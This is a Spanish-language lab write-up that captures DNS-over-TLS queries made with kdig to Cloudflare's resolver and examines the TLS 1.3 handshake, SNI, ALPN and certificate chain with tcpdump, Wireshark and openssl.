



Primero analizaremos su comportamiento, aunque el tráfico vaya cifrado ➡ El objetivo es observar cómo la herramienta kdig realiza una consulta DNS segura a un servidor, como el de Cloudflare, 1.1.1.1.
Después desciframos ese tráfico usando 2 técnicas diferentes del capitulo 7.
Un cliente DNS-over-TLS (DoT) es un cliente DNS que ha decidido ponerse una capa de seguridad antes de salir a la red. Usaremos esta analogía que es muy gráfica para explicar su funcionamiento: En lugar de gritar nuestras peticiones por megáfono, como hace el DNS tradicional, las mete en un túnel privado y cifrado.
Tradicionalmente, el DNS envía mensajes sobre datagramas UDP, lo cual es rápido pero totalmente legible para cualquiera que esté mirando el tráfico. Un cliente DoT, en cambio, establece una sesión TLS completa con el servidor DNS antes de preguntar nada. Esto implica que la comunicación no es "lanzar y olvidar", sino que requiere un protocolo de enlace (Handshake) previo para asegurar la conexión.
El objetivo principal de estos clientes es evitar que intermediarios, como nuestro proveedor de internet o un atacante en la red, puedan ver qué páginas estamos intentando visitar.
Estos clientes utilizan mecanismos avanzados como Diffie-Hellman Efímero (DHE) o Curvas Elípticas (ECDH) para el intercambio de claves, lo que garantiza que nadie pueda descifrar el tráfico incluso si robaran la clave privada del servidor en el futuro.
El cliente DoT que recomienda usar el enunciado el ejercicio es kdig. Este cliente es parte del paquete knot-dnsutils. Mientras que una herramienta normal como nslookup o dig usa el puerto 53 (UDP), kdig con el parámetro +tls busca establecer una conexión segura, normalmente en el puerto 853.
El tráfico generado por este cliente kdig aparecerá en Wireshark simplemente como Application Data, ocultando la consulta DNS real bajo capas criptográficas.
En la Fase 1 del ejercicio: Realizaremos un análisis sin descifrar:
Application Data.Application Data cifrada. La parte DNS interna de DoT no es legible ni se sigue como flujo DNS.En la Fase 2 del ejercicio: Realizaremos un descifrado del protocolo TLS: Al aplicar las técnicas que menciona el enunciado de ejercicio, como es el uso de SSLKEYLOGFILE o el uso de un proxy como mitmproxy, ocurrirá lo siguiente:
Transport Layer Security, aparecerá una nueva sección en el análisis del paquete llamada Domain Name System, permitiendo navegar por la estructura del protocolo DNS como si fuera tráfico sin cifrar..texto claro: como el Query Name (el dominio), el Query Type (A, AAAA, etc.) y, en la respuesta del servidor, las secciones de Answers con las direcciones IP correspondientes.Ejecutamos una consulta DNS cifrada (DoT) con kdig contra el servidor DoT de Cloudflare (1.1.1.1 puerto 853), validando correctamente el certificado TLS usando un hostname válido para el servicio DoT de Cloudflare, y luego analizaremos este tráfico.
En linux, kdig viene en el paquete knot-dnsutils.
sudo apt update
sudo apt install -y knot-dnsutils ca-certificates
donde:
Comprobamos que está instalado:
kdig -V
kdig, Knot DNS 3.4.6
Antes de proceder con la consulta con kdig, se debe realizar una inspección de hostnames que coincidan con el SNI/hostname esperado por Cloudflare para DoT. Si intentamos usar un nombre que NO está en el certificado, TLS cortará la conexión antes de enviar cualquier dato. Al consultar el SAN primero, nos aseguramos que el parámetro +tls-hostdel comando kdig coincida con lo que el servidor presentará, evitando errores por discrepancias de identidad.
Análisis de la Validación de Hostnames en DoT:
+tls-host, que se envía en la extensión SNI del Client Hello, no figura en el certificado del servidor, el cliente kdig detectará una discrepancia de identidad. Por seguridad, el cliente abortará la conexión inmediatamente, impidiendo que el dato (que en este caso es la consulta DNS) salga del equipo.+tls-host con una entrada válida del SAN garantiza que la cadena de confianza se complete con éxito, permitiendo que kdig reporte el estado como "Trusted".Haremos una búsqueda inversa de DNS (Reverse DNS Lookup), es decir, buscaremos qué dominio tiene asociado una IP: El objetivo es identificar el hostname asociado a la dirección IP del servidor (registro PTR). Este nombre es fundamental para las fases posteriores, ya que nos permite definir el SNI (Server Name Indication) y validar correctamente el certificado TLS que presentará el servidor:
dig -x 1.1.1.1

donde:
-x: Esta opción hace que el comando dig no busque una dirección IP (registro A), sino que busca el registro PTR. Este registro es el que vincula una IP con el nombre de host.ANSWER SECTION: La respuesta indica que el nombre asociado a la IP 1.1.1.1 es one.one.one.one.Obtenemos que el SNI (Server Name Indication) es: one.one.one.one que usaremos para configurar correctamente el parámetro de validación de host en el cliente kdig.
kdig -d @1.1.1.1 +tls-ca +tls-host=one.one.one.one example.com
donde:
kdig: el programa cliente DNS.-d: activa mensajes de depuración.@1.1.1.1: servidor DNS a la que lanza la consulta, en este caso es Cloudflare.+tls-ca: Opción que indica que usa TLS y valida el certificado con autoridades de certificación (CA).+tls-host=one.one.one.one: Opción que indica que cuando valide el certificado, debe comprobar que corresponde al hostname one.one.one.one. Fuerza a que la conexión TLS use ese hostname para SNI y para la validación del certificado. Si el certificado no es válido para one.one.one.one, kdig debería rechazar la conexión, evitando un MITM con otro certificado.example.com: El dominio que se está consultando. Es el objetivo de la consulta DNS. Es simplemente el nombre del que queremos averiguar su dirección IP. Podríamos usar cualquiera, pero se suele usar example.com para pruebas de concepto.Lo que estamos haciendo es: Ejecutar una consulta DNS cifrada (DoT) con kdig contra el servidor DoT de Cloudflare (1.1.1.1 puerto 853), validando correctamente el certificado TLS usando el hostname one.one.one.one, para luego, analizar ese tráfico.

donde:
DEBUG indica que se está intentando conectar al puerto 853 usando el protocolo TCP. Esto es fundamental, ya que el DNS estándar usa UDP/53, pero DoT requiere una conexión orientada a flujo (TCP) para establecer el túnel TLS.imported 146 system certificates indica que kdig está utilizando las librerías criptográficas del sistema para validar la identidad del servidor de Cloudflare. Esto da una pista sobre la librería SSL/TLS que tendremos que analizar como parte del enunciado del ejercicio.Ese error significa que no logramos establecer una conexión TCP/TLS hacia 1.1.1.1 en el puerto 853.
ping -c 2 1.1.1.1

donde:

donde:
Vemos en la documentación que Cloudflare ofrece DoT en TCP/853 sobre 1.1.1.1 y 1.0.0.1 (y sus IPv6) DNS over TLS. Probamos si tenemos conexión con este servidor DOT en 1.0.0.1:
nc -vz 1.0.0.1 853
 donde:
donde:
Ejecutamos kdig contra el servidor Cloudflare en 1.0.0.1:

donde:
1) Evidencia de que realmente estamos usando el cliente DoT contra Cloudflare, usando TCP + 853:
;; DEBUG: Querying for owner(example.com.), class(1), type(1), server(1.0.0.1), port(853), protocol(TCP)owner(example.com.): El dominio consultado example.com.type(1): el tipo A (IPv4). En DNS, el tipo A es el código 1.class(1): clase IN (Internet). En DNS, IN es el código 1.server(1.0.0.1), port(853), protocol(TCP): Se confirma que la consulta va a 1.0.0.1 por TCP/853, que es el puerto estándar de DoT.2) Evidencia de validación TLS con CAs del sistema
;; DEBUG: TLS, imported 151 system certificates+tls-ca hace que kdig cargue el almacén de CA del sistema, para validar el certificado del servidor.“151 system certificates” es evidencia de que está usando el trust store del sistema para la validación.3) Cadena de certificados certificate chain presentada por el servidor:
;; DEBUG: TLS, received certificate hierarchy:
Certificado #1 (leaf / servidor): #1 ... O=Cloudflare, Inc., CN=cloudflare-dns.com
+tls-host=one.one.one.one, pero el CN que imprime kdig es cloudflare-dns.com. Hoy en día lo que se manda para hostname validation suele ser el SAN (Subject Alternative Name), no el CN. Usaremos el comando openssl s_client para mostrar que el SAN incluye one.one.one.one y/o nombres del servicio DoT de Cloudflare.
openssl s_client para mostrar SANs:openssl s_client -connect 1.0.0.1:853 \
-servername one.one.one.one \
</dev/null 2>/dev/null | \
openssl x509 -noout -subject -issuer -ext subjectAltName
subject=C = US, ST = California, L = San Francisco, O = "Cloudflare, Inc.", CN = cloudflare-dns.com
issuer=C = US, ST = Texas, L = Houston, O = SSL Corp, CN = SSL.com SSL Intermediate CA ECC R2
X509v3 Subject Alternative Name:
DNS:cloudflare-dns.com, DNS:*.cloudflare-dns.com, IP Address:1.0.0.1, IP Address:1.1.1.1, IP Address:162.159.36.1,
IP Address:162.159.46.1, IP Address:2606:4700:4700:0:0:0:0:1001, IP Address:2606:4700:4700:0:0:0:0:1111,
IP Address:2606:4700:4700:0:0:0:0:64, IP Address:2606:4700:4700:0:0:0:0:6400, DNS:one.one.one.one
+tls-host=one.one.one.one contra la lista de nombres y direcciones IP presentes en la extensión Subject Alternative Name - SAN.SHA-256 PIN: .... kdig muestra el pin (hash) de la clave pública/cert para pinning.Certificado #2 (intermediate): #2 ... CN=SSL.com SSL Intermediate CA ECC R2: Es el certificado intermedio (CA intermedia) que firma el leaf.
Certificado #3 (root): #3 ... CN=SSL.com Root Certification Authority ECC: Es el certificado raíz (root CA) del que deriva la confianza..
4) Pinning y confianza del certificado:
;; DEBUG: TLS, skipping certificate PIN check: Indica que no se está aplicando pinning, ya que no se ha configurado un pin.;; DEBUG: TLS, The certificate is trusted.: Esta es la evidencia principal de que la verificación TLS con CA ha sido correcta: el certificado presentado por el servidor es confiable según el almacén del sistema.5) Parámetros criptográficos de la sesión TLS: Esto es muy importante para el análisis del handshake:
;; TLS session (TLS1.3)-(ECDHE-X25519)-(ECDSA-SECP256R1-SHA256)-(AES-256-GCM). Esta línea resume lo esencial del canal cifrado:
TLS1.3: La sesión negoció TLS 1.3 (moderno; handshake y cifrados distintos a TLS 1.2).ECDHE-X25519: intercambio de claves efímero con curva X25519, Perfect Forward Secrecy.ECDSA-SECP256R1-SHA256: Autenticación/firmas con ECDSA (curva P-256 / secp256r1) y hash SHA-256.AES-256-GCM: cifrado simétrico de la sesión con AES-GCM (AEAD), clave 256 bits.6) Interpretación de la respuesta DNS (ya dentro del túnel TLS):
Cabecera DNS:
->>HEADER<<- opcode: QUERY; status: NOERROR; id: 33829
;; Flags: qr rd ra; QUERY: 1; ANSWER: 2; AUTHORITY: 0; ADDITIONAL: 1
EDNS y padding:
;; EDNS PSEUDOSECTION: ... UDP size: 1232 B ... PADDING: 392 B
Pregunta y respuesta:
;; QUESTION SECTION: example.com. IN A:
;; ANSWER SECTION: ... 104.18.26.120 .... 104.18.27.120 ...: Respuesta DNS: Esos dos A records (IPv4).7) Métricas de transferencia y latencia:
;; Received 468 B: Tamaño total del mensaje DNS (a nivel aplicación DNS) recibido.;; Time 2026-01-27 15:32:39 CET: Marca de tiempo del sistema cuando el kdig fue ejecutado.;; From 1.0.0.1@853(TLS) in 56.7 ms: Confirma de nuevo: servidor 1.0.0.1, puerto 853, sobre TLS.56.7 ms: latencia de la consulta.Analizamos la configuración de red de la máquina virtual:

donde:
Capturamos el tráfico en la interfaz de salida cuando se lanza kdig:
sudo tcpdump -ni enp0s3 host 1.0.0.1 and tcp port 853 -w trafico_cloudflare_1.0.0.1.pcap

donde:
En otra terminal, lanzamos varias consultas:
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one example.com
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one example2.com
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one cloudflare.com
Archivo pcap obtenido:

con este fichero pcap:
Aunque aún no corresponde descrifrar ya que eso se verá en la Fase 2, vamos a realizar un análisis completo de la sesión TLS establecida entre el cliente y el servidor DNS-over-TLS.
Abrimos el archivo pcap obtenido con Wireshak.
Identificamos una sesión - stream - TLS concreta: Como hemos lanzado 3 veces el comando kdig, habrá varias conexiones TCP, con varios handshakes. Para elegir un handshake concreto, dentro de Wireshark:

Seleccionamos una conversación, por ejemplo la primera que tiene un Stream ID = 0:
Filtramos por ese stream 0. Se ha seleccionado el Stream TCP 0 para el análisis, el cual contiene el intercambio completo de la primera consulta DNS-over-TLS preguntando por el dominio example.com. En este flujo se observará el Handshake inicial donde el cliente propone las suites de cifrado y el servidor Cloudflare responderá con los 2 A records del dominio consultado.
Aplicamos en Wireshark este filtro para ceñirnos al stream 0:
tcp.stream == 0

donde vemos una visión general del flujo de comunicación:
TCP Handshake. Se comprueba que DoT va por TCP y que se usa el puerto 853:
10.0.2.15:49761 → 1.0.0.1:853 [SYN].1.0.0.1:853 → 10.0.2.15:49761 [SYN, ACK].[ACK].Handshake TLS 1.3 - Inicio del canal cifrado:
TLSv1.3 Client Hello y en el campo “Info” ya aparece: SNI=one.one.one.one. Esto es una evidencia directa de la extensión SNI (Server Name Indication).TLSv1.3 Server Hello, Change Cipher Spec.
TLSv1.3, así que la versión negociada de TLS es TLS 1.3.Supported Version: TLS 1.3. Suele aparecer como mensaje de compatibilidad.Tráfico cifrado de aplicación - DNS dentro de TLS. Es tráfico cifrado, donde va la consulta DNS y la respuesta:
Cierre de la conexión:
Vamos averiguar si usa AF_INET6 que es la familia para el protocolo IPv6 o AF_INET que es la familia para el protocolo IPv4.
Seleccionamos el paquete 4 y en el panel inferior Packet Details:
 donde:
donde:
Internet Protocol Version 4.Version: 4.Src: 10.0.2.15.Dst: 1.0.0.1.En el PCAP, los paquetes del flujo DoT muestran Internet Protocol Version 4. Con origen 10.0.2.15 y destino 1.0.0.1. Por tanto, la familia de direcciones utilizada es IPv4, equivalente a un socket AF_INET.
En el PCAP se observa que la comunicación es sobre IPv4, por lo que la familia de direcciones corresponde a AF_INET, y que el transporte es TCP hacia el puerto 853. Para evidenciar el uso explícito de SOCK_STREAM y las llamadas socket()/connect()/read-write()/close(), se completará usando el comando strace en el apartado de este ejercicio: Consultas con las herramientas strace y ldd → Captura del tipo de socket que emplea
Seleccionamos el primer SYN inicial, que es el primer paquete del stream 0.
 donde:
donde:
Protocol: TCP.Src Port: 49761: Puerto efímero 49761.Dst Port: 853: Puerto de destino.Flags: SYN (Inicio de Stream): La bandera 0x002 (SYN) confirma que es el paquete inicial para establecer el flujo de datos.Se observa que la sesión DoT se establece sobre TCP, iniciándose con un paquete SYN desde 10.0.2.15:49761 hacia 1.0.0.1:853. El puerto destino 853 identifica el servicio DoT, mientras que 49761 es un puerto efímero del cliente.
 donde:
donde:
Paquete 1 (cliente → servidor)
Paquete 2 (servidor → cliente)
Paquete 3 (cliente → servidor)
Se observa el establecimiento TCP mediante el 3-way handshake: SYN (cliente → servidor :853), SYN/ACK (servidor → cliente) y ACK final (cliente → servidor). Tras este intercambio, la sesión TCP queda establecida y puede comenzar el handshake TLS de DoT.
Dentro del paquete 6, en el panel inferior de Packet Details → Versión negociada: TLS 1.3, por supported_versions:

Nota: Aunque vemos Version: TLS 1.2 (0x0303), la sesión es TLS 1.3. En TLS 1.3, muchos campos muestran un legacy_version 0x0303, que parece TLS 1.2 por compatibilidad. Sin embargo, la versión real negociada se evidencia en la extensión: Extension: supported_versions TLS 1.3.
Para ver el nombre de la cipher suite hacemos click en el paquete 6 y en el panel inferior de Packet Details buscaremos Cipher Suite:

donde:
TLS_AES_256_GCM_SHA384 (0x1302)AES_256_GCM:
AES con clave de 256 bits en modo GCM (AEAD).GCM aporta confidencialidad + integridad/autenticación, no se necesita una MAC aparte.SHA384: Hash usado en TLS 1.3 para derivación de claves HKDF y para el transcript del handshake.En TLS 1.3, la cipher suite define principalmente:
HKDF y al transcript del handshake.A diferencia de TLS 1.2, en TLS 1.3 la cipher suite ya no incluye en su nombre el intercambio de claves (ECDHE) ni el algoritmo de firma (RSA/ECDSA). Esto se negocia en otros campos, como key_share, supported_groups, y el signature_algorithms.
Resumiendo, en este ServerHello se observa la cipher suite negociada TLS_AES_256_GCM_SHA384 (0x1302). En TLS 1.3 esta suite indica que:
AES-256 en modo GCM (AEAD).SHA-384 en la derivación de claves y el transcript del handshake.TLS 1.3. Se evidencia aparte mediante la extensión key_share (que analizamos en el siguiente apartado).Dentro del mismo paquete 6, en el panel inferior de Packet Details:
 donde:
donde:
Extension: key_share … x25519.Key Share Entry: Group: x25519Key Exchange length: 32Key Exchange: 553bfa.... Corresponde a la clave pública efímera del cliente generada mediante el algoritmo Diffie-Hellman sobre Curva Elíptica (x25519). Este intercambio permite establecer una clave de cifrado simétrico única para la sesión, garantizando que el tráfico DNS permanezca confidencial incluso si las claves a largo plazo del servidor se vieran comprometidas en el futuro. Al ser efímero, cambia por sesión y no depende de la clave privada del servidor.x25519 es un grupo de intercambio de claves basado en Curve25519 (ECDH moderno).Resumiendo: En este paquete 6 se observa: La extensión key_share con Group: x25519 (Key Exchange length 32), lo que evidencia que el intercambio de claves de TLS 1.3 usa ECDHE/ECDH efímero. Esto proporciona PFS, por lo que la posesión posterior de la clave privada del servidor no permitiría derivar las claves de sesión y descifrar la captura. Es por ello que necesitaremos técnicas como SSLKEYLOGFILE o proxies TLS para obtener el tráfico en claro.
En el paquete 4 ClientHello de la conexión DoT (10.0.2.15 → 1.0.0.1:853), en la columna Info ya vimos: Client Hello (SNI=one.one.one.one). Vamos a buscar la extensión SNI en el árbol de Wireshark. Seleccionamos este paquete y en el panel Packet Details → Transport Layer Security → Handshake Protocol: Client Hello → Extensions → server_name

donde:
Extension: server_name (...) name=one.one.one.one.Server Name Indication extensionServer Name: one.one.one.onekdig ... +tls-host=one.one.one.one: estamos indicando que el hostname esperado y por tanto el que se valida, es one.one.one.one.Application Data. Aunque DoT cifra el DNS, ciertos metadatos del handshake, como el SNI, pueden observarse.Resumiendo: Se confirma mediante el análisis del paquete 4 Client Hello que el cliente envía la extensión Server Name Indication (SNI) con el valor one.one.one.one. Este parámetro es el que permite al servidor seleccionar el certificado criptográfico adecuado para que el proceso de Hostname Validation posterior resulte en una conexión de confianza: Trusted.
Aplicamos el filtro de wireshark tls.handshake.extension.type == 16, que filtra la extensión TLS nº16, que es ALPN - Application-Layer Protocol Negotiation. Seleccionamos uno de los paquetes ClientHello → En el panel inferior Packet Details → Transport Layer Security → TLSv1.3 Record Layer: Handshake Protocol: Client Hello → Handshake Protocol: Client Hello → Extensions → Extension: application_layer_protocol_negotiation:
 donde:
donde:
ALPN Extension.ALPN string length: 3.ALPN Protocol: dot.Resumiento: El cliente kdig anuncia ALPN y propone el identificador dot. dot aquí es el Application-Layer Protocol Negotiation identifier para DNS over TLS. Esto significa que, además de usar el puerto 853, el cliente también indica explícitamente por ALPN que la aplicación es DoT.
Recordemos que en TLS 1.3, con un PCAP tal y como capturamos con tcpdump, SIN las claves de sesión, NO podemos hacer un análisis completo del certificado desde Wireshark, porque:
TLS Application Data (cifrado). Ahí dentro viaja el certificado, pero Wireshark no lo puede abrir sin los secretos de sesión.Es por ello que para seguir haciendo el análisis completo que nos pide el ejercicio, vamos a usar openssl s_client para obtener: La cadena + La verificación. Mientras kdig nos da la respuesta de la aplicación (DNS), openssl s_client nos permite validar la infraestructura que protege esa respuesta, confirmando que la cadena de certificados es válida y que el hostname solicitado es el legítimo. Usaremos el siguiente comando:
openssl s_client -connect 1.0.0.1:853 \
-servername one.one.one.one \
-verify_hostname one.one.one.one \
-showcerts </dev/null
Obteniendo:
Connecting to 1.0.0.1
CONNECTED(00000003)
depth=2 C=US, ST=Texas, L=Houston, O=SSL Corporation, CN=SSL.com Root Certification Authority ECC
verify return:1
depth=1 C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
verify return:1
depth=0 C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com
verify return:1
---
Certificate chain
0 s:C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com
i:C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
a:PKEY: EC, (prime256v1); sigalg: ecdsa-with-SHA384
v:NotBefore: Dec 31 19:20:01 2025 GMT; NotAfter: Dec 21 19:20:01 2026 GMT
-----BEGIN CERTIFICATE-----
MIIFgTCCBQigAwIBAgIQTtAzBMRrh6jC61Vp2566DDAKBggqhkjOPQQDAzBvMQsw
CQYDVQQGEwJVUzEOMAwGA1UECAwFVGV4YXMxEDAOBgNVBAcMB0hvdXN0b24xETAP
BgNVBAoMCFNTTCBDb3JwMSswKQYDVQQDDCJTU0wuY29tIFNTTCBJbnRlcm1lZGlh
dGUgQ0EgRUNDIFIyMB4XDTI1MTIzMTE5MjAwMVoXDTI2MTIyMTE5MjAwMVowcjEL
MAkGA1UEBhMCVVMxEzARBgNVBAgMCkNhbGlmb3JuaWExFjAUBgNVBAcMDVNhbiBG
cmFuY2lzY28xGTAXBgNVBAoMEENsb3VkZmxhcmUsIEluYy4xGzAZBgNVBAMMEmNs
b3VkZmxhcmUtZG5zLmNvbTBZMBMGByqGSM49AgEGCCqGSM49AwEHA0IABGODUCUS
6nJ4GesyR6/BBVKcKitgioROdW2BSEfBx77PhXlsEilbULPM7FChlJ7cRAgHDIAa
k9O9eBF7tqPI6qyjggOBMIIDfTAMBgNVHRMBAf8EAjAAMB8GA1UdIwQYMBaAFA10
Zgpen+Is7NXCXSUEf3Uyuv99MHEGCCsGAQUFBwEBBGUwYzA/BggrBgEFBQcwAoYz
aHR0cDovL2NlcnQuc3NsLmNvbS9TU0xjb20tU3ViQ0EtU1NMLUVDQy0zODQtUjIu
Y2VyMCAGCCsGAQUFBzABhhRodHRwOi8vb2NzcHMuc3NsLmNvbTCBpgYDVR0RBIGe
MIGbghJjbG91ZGZsYXJlLWRucy5jb22CFCouY2xvdWRmbGFyZS1kbnMuY29thwQB
AAABhwQBAQEBhwSinyQBhwSiny4BhxAmBkcARwAAAAAAAAAAABABhxAmBkcARwAA
AAAAAAAAABERhxAmBkcARwAAAAAAAAAAAABkhxAmBkcARwAAAAAAAAAAAGQAgg9v
bmUub25lLm9uZS5vbmUwIwYDVR0gBBwwGjAIBgZngQwBAgIwDgYMKwYBBAGCqTAB
AwECMBMGA1UdJQQMMAoGCCsGAQUFBwMBMEQGA1UdHwQ9MDswOaA3oDWGM2h0dHA6
Ly9jcmxzLnNzbC5jb20vU1NMY29tLVN1YkNBLVNTTC1FQ0MtMzg0LVIyLmNybDAd
BgNVHQ4EFgQULCjsVCC2hgAmVappu7bDZS4W+h8wDgYDVR0PAQH/BAQDAgeAMIIB
fwYKKwYBBAHWeQIEAgSCAW8EggFrAWkAdgDCMX5XRRmjRe5/ON6ykEHrx8IhWiK/
f9W1rXaa2Q5SzQAAAZt144FrAAAEAwBHMEUCIHuQBtNhAb4vKGOEHCF7VVPrLHCJ
zk63LICoCBt00zT1AiEAyWgmqpFEDhYYf7tCfbPHKIFQ0m7FAnfkvAbtdxitYr0A
dwDIo8R/x7OtuTVrAT9qehJt4zpOQ6XGRvmXrTl1mR3PmgAAAZt144HcAAAEAwBI
MEYCIQDK+OeKN052kyl9skxqqvcjM0EnMjAoqfW/w2oDJhe+KwIhANhNTK+gJ6lT
DGHjETKguyIS+BGaEnybtSUbxasJS0BoAHYA2AlVO5RPev/IFhlvlE+Fq7D4/F6H
VSYPFdEucrtFSxQAAAGbdeOCMgAABAMARzBFAiBCcTgVSPtumHiOc5mABE05SNon
hQ+/HKlM/mZ5fujyAgIhALV9R9eZpDKVs4o6+Y8uQYQIshlc6drDSS5Ojen3Q2dH
MAoGCCqGSM49BAMDA2cAMGQCMBsutT9/NO4qecncXj/hWurz/QWBsk7GyrZB71SA
1P7QMBDonFpyfkEQWoiWANfPDwIwEvzlukLPMNPCKWOAcErLN5FR6h4kqMEzd1Lq
Tjux4jSNXWzCsgVjnOxJn4q3MjKF
-----END CERTIFICATE-----
1 s:C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
i:C=US, ST=Texas, L=Houston, O=SSL Corporation, CN=SSL.com Root Certification Authority ECC
a:PKEY: EC, (secp384r1); sigalg: ecdsa-with-SHA384
v:NotBefore: Mar 7 19:42:42 2019 GMT; NotAfter: Mar 3 19:42:42 2034 GMT
-----BEGIN CERTIFICATE-----
MIIDejCCAv+gAwIBAgIQHNcSEt4VENkSgtozEEoQLzAKBggqhkjOPQQDAzB8MQsw
CQYDVQQGEwJVUzEOMAwGA1UECAwFVGV4YXMxEDAOBgNVBAcMB0hvdXN0b24xGDAW
BgNVBAoMD1NTTCBDb3Jwb3JhdGlvbjExMC8GA1UEAwwoU1NMLmNvbSBSb290IENl
cnRpZmljYXRpb24gQXV0aG9yaXR5IEVDQzAeFw0xOTAzMDcxOTQyNDJaFw0zNDAz
MDMxOTQyNDJaMG8xCzAJBgNVBAYTAlVTMQ4wDAYDVQQIDAVUZXhhczEQMA4GA1UE
BwwHSG91c3RvbjERMA8GA1UECgwIU1NMIENvcnAxKzApBgNVBAMMIlNTTC5jb20g
U1NMIEludGVybWVkaWF0ZSBDQSBFQ0MgUjIwdjAQBgcqhkjOPQIBBgUrgQQAIgNi
AASEOWn30uEYKDLFu4sCjFQ1VupFaeMtQjqVWyWSA7+KFljnsVaFQ2hgs4cQk1f/
RQ2INSwdVCYU0i5qsbom20rigUhDh9dM/r6bEZ75eFE899kSCI14xqThYVLPdLEl
+dyjggFRMIIBTTASBgNVHRMBAf8ECDAGAQH/AgEAMB8GA1UdIwQYMBaAFILRhXMw
5zUE044CkvvlpNHEIejNMHgGCCsGAQUFBwEBBGwwajBGBggrBgEFBQcwAoY6aHR0
cDovL3d3dy5zc2wuY29tL3JlcG9zaXRvcnkvU1NMY29tLVJvb3RDQS1FQ0MtMzg0
LVIxLmNydDAgBggrBgEFBQcwAYYUaHR0cDovL29jc3BzLnNzbC5jb20wEQYDVR0g
BAowCDAGBgRVHSAAMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATA7BgNV
HR8ENDAyMDCgLqAshipodHRwOi8vY3Jscy5zc2wuY29tL3NzbC5jb20tZWNjLVJv
b3RDQS5jcmwwHQYDVR0OBBYEFA10Zgpen+Is7NXCXSUEf3Uyuv99MA4GA1UdDwEB
/wQEAwIBhjAKBggqhkjOPQQDAwNpADBmAjEAxYt6Ylk/N8Fch/3fgKYKwI5A011Q
MKW0h3F9JW/NX/F7oYtWrxljheH8n2BrkDybAjEAlCxkLE0vQTYcFzrR24oogyw6
VkgTm92+jiqJTO5SSA9QUa092S5cTKiHkH2cOM6m
-----END CERTIFICATE-----
2 s:C=US, ST=Texas, L=Houston, O=SSL Corporation, CN=SSL.com Root Certification Authority ECC
i:C=US, ST=Texas, L=Houston, O=SSL Corporation, CN=SSL.com Root Certification Authority ECC
a:PKEY: EC, (secp384r1); sigalg: ecdsa-with-SHA256
v:NotBefore: Feb 12 18:14:03 2016 GMT; NotAfter: Feb 12 18:14:03 2041 GMT
-----BEGIN CERTIFICATE-----
MIICjTCCAhSgAwIBAgIIdebfy8FoW6gwCgYIKoZIzj0EAwIwfDELMAkGA1UEBhMC
VVMxDjAMBgNVBAgMBVRleGFzMRAwDgYDVQQHDAdIb3VzdG9uMRgwFgYDVQQKDA9T
U0wgQ29ycG9yYXRpb24xMTAvBgNVBAMMKFNTTC5jb20gUm9vdCBDZXJ0aWZpY2F0
aW9uIEF1dGhvcml0eSBFQ0MwHhcNMTYwMjEyMTgxNDAzWhcNNDEwMjEyMTgxNDAz
WjB8MQswCQYDVQQGEwJVUzEOMAwGA1UECAwFVGV4YXMxEDAOBgNVBAcMB0hvdXN0
b24xGDAWBgNVBAoMD1NTTCBDb3Jwb3JhdGlvbjExMC8GA1UEAwwoU1NMLmNvbSBS
b290IENlcnRpZmljYXRpb24gQXV0aG9yaXR5IEVDQzB2MBAGByqGSM49AgEGBSuB
BAAiA2IABEVuqVDEpiM2nl8ojRfLliJkP9x6jh3MCLOicSS6jkm5BBtHllirLZXI
7Z4INcgn64mMU1jrYor+8FsPazFSY0E7ic3s7LaNGdM0B9y7xgZ/wkWV7Mt/qCPg
CemB+vNH06NjMGEwHQYDVR0OBBYEFILRhXMw5zUE044CkvvlpNHEIejNMA8GA1Ud
